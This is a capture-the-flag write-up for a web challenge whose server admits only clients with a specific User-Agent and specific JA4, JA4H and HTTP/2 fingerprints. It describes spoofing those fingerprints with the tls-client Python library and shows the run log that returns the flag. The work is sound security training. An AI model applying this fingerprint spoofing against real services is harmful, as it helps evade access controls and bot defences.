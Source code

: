 # Challenge description

Only whitelisted clients are allowed to connect to the web server!
Read the source code of the server and send the correct fingerprints.

# Soluce

### **Analyse of server (`server.go`)**
By analyzing `server.go`, we see that the server **verifies four main elements** in incoming requests:
1. **User-Agent** → Must be `Chrome 131.0.0.0`
2. **JA4 fingerprint** → Must match the **expected value stored in the server**
3. **JA4H_a fingerprint** → Must match the **expected value stored in the server**
4. **HTTP/2 fingerprint** → Must match the **expected value stored in the server**

If **any of these values are incorrect**, the server returns **`403 Forbidden`**.

---

### **Spoofing the Correct Fingerprints**
To **bypass these checks**, we need to send a request that perfectly matches the server's expected values.

**Manually crafting a request with the exact TLS parameters is difficult**, but there is a Python library that allows us to **simulate a browser with a specific TLS configuration**: [`tls-client`](https://github.com/FlorianREGAZ/Python-Tls-Client).

With [this script](passwordless_authentication.py), we were able to send a request **matching all required fingerprints**.

---

### **Running the Exploit**
```bash
┌──(.venv)─(kali㉿kali)-[~/Downloads/challenge_files_passwordless_authentication]
└─$ uv run python passwordless_authentication.py
raw request bytes sent over wire: 429 (0 kb)
headers on request:
map[Accept:[*/*] Accept-Encoding:[gzip, deflate, br] Accept-Language:[en-US,en;q=0.5] Connection:[keep-alive] Cookie:[session=123456] Header-Order::[] Referer:[https://passwordless_authentication.challenges.cybersecuritychallenge.be/] User-Agent:[Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36]]
cookies on request:
[session=123456]
headers on response:
map[Content-Length:[30] Content-Type:[text/plain; charset=utf-8] Date:[Sat, 15 Mar 2025 17:11:32 GMT]]
cookies on response:
[]
requested https://passwordless_authentication.challenges.cybersecuritychallenge.be/ : status 200
response body payload: CSC{y0uf0und4llmyf1n63rpr1n75}
raw response bytes received over wire: 97 (0 kb)
get cookies for url: https://passwordless_authentication.challenges.cybersecuritychallenge.be/
Status Code: 200
Response: CSC{y0uf0und4llmyf1n63rpr1n75}
```